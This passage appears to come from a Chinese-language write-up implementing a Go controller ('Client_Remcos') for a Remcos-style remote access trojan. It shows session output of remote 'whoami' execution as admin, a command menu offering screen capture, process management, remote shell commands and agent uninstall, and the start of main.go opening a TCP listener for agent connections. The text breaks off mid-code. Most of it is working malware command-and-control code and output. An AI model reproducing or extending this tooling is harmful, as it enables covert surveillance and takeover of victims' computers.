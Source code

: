     C:\>whoami  
    win-5nxxxxxxx7b\admin  
      
    C:\>exit  
    请输入指令：  
    help  
            screen_capture:截屏  
            process_manager：进程管理  
            command_line：执行命令行  
            close：关闭Agent进程  
            uninstall：卸载Agent  
            exit：退出Client  
    请输入指令：  
    screen_capture  
    请输入指令：  
    screen_capture output:截屏保存于01.png文件中  
      
    请输入指令：  
    exit  
      
    F:\GolandProjects\Client_Remcos>  
    

### 代码实现

代码结构如下：

![]()

  

  * main.go

    
    
    package main  
      
    import (  
     "Client_Remcos/remcos_xx"  
     "bufio"  
     "encoding/hex"  
     "fmt"  
     "net"  
     "os"  
    )  
      
    func main() {  
     client_Remcos("0.0.0.0", "8080")  
    }  
      
    func client_Remcos(address, port string) {  
     // 创建监听器  
     listener, err := net.Listen("tcp", address+":"+port)  
     if err != nil {  
      fmt.Println("Error listening:", err.Error())  
      return  
     }  
     defer listener.Close()  
      